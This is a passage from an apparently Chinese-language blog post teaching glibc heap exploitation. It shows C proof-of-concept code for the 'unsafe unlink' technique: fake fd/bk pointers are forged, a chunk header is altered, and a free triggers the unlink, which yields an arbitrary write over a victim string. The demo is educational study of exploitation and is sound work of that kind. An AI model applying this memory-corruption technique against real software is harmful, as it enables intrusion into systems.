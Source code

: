 ```c
    chunk0_ptr [3] = (uint64_t) &chunk0_ptr - 0x10;
    fprintf(stderr, "fake fd: %p = &chunk0_ptr - 0x18", (void*)chunk0_ptr[2]);
    fprintf(stderr, "fake bk: %p = &chunk0_ptr - 0x10", (void*)chunk0_ptr[3]);
    
    uint64_t *chunk1_hdr = (void*) chunk1_ptr - 0x10;
    chunk1_hdr[0] = 0x80;
    chunk1_hdr[1] &= ~1;
 
    /*  int *t[10], i;                  //tcache
        for(i=0; i<7; i++){
            t[i] = malloc(0x80);
        }
        for(i=0;i<7;i++){
            free(t[i]);
        };  */
 
    free(chunk1_ptr);               //unlink
 
    char victim_string[8] = "AAAAAAA";
    chunk0_ptr[3] = (uint64_t) victim_string;   //overwrite itself
    fprintf(stderr, "old value: %s\n", victim_string);
 
    chunk0_ptr[0] = 0x42424242424242LL;     //over wirting victim_string
    fprintf(stderr, "new Value: %s\n", victim_string);
 
}
```

#### 示例图

![img](https://loora1n.github.io/img/article/6.png)